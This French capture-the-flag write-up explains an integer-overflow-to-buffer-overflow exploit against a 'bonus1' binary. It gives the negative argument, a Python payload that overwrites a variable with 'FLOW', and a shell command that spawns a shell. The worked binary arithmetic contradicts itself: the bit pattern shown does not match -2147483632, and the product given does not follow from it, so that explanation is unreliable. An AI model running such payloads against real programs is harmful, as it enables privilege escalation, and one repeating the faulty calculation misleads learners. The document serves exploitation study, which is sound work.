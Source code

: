 # Bonus1 - Integer Overflow

## Contexte
Le programme prend deux arguments :
- Un nombre qui doit être inférieur à 9
- Une chaîne de caractères qui sera copiée

## Vulnérabilités

**Integer Overflow**
- La vérification `nb > 9` est effectuée
- Un nombre négatif peut passer la vérification
- Après multiplication par 4, le résultat peut devenir un grand nombre positif

**Buffer Overflow**
- memcpy utilise la taille calculée sans vérification
- Permet d'écrire au-delà du buffer alloué

## Exploitation

**Calcul de l'Integer Overflow**
- Valeur recherchée : -2147483632
- En binaire : 1000 0000 0000 0000 0000 0000 0000 0011
- Après multiplication par 4 : 0000 0000 0000 0000 0000 0000 0000 1100

**Construction du Payload**
```python
# Premier argument : integer overflow
"-2147483632"

# Second argument : padding + valeur cible
"A"*40 + "\x46\x4c\x4f\x57"  # "FLOW" en little-endian
```

**Commande d'Exploitation**
```bash
./bonus1 -2147483632 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```

## Processus d'Exploitation

1. Le nombre négatif passe la vérification `nb > 9`
2. La multiplication par 4 transforme ce nombre en valeur positive
3. memcpy copie suffisamment de données pour atteindre var_3c
4. La valeur 0x574f4c46 est écrite à l'emplacement de var_3c
5. La condition est validée et le shell est exécuté

Citations:
[1] https://ppl-ai-file-upload.s3.amazonaws.com/web/direct-files/8881945/28258b1b-41a9-4724-96b4-9da451ac675e/paste.txt
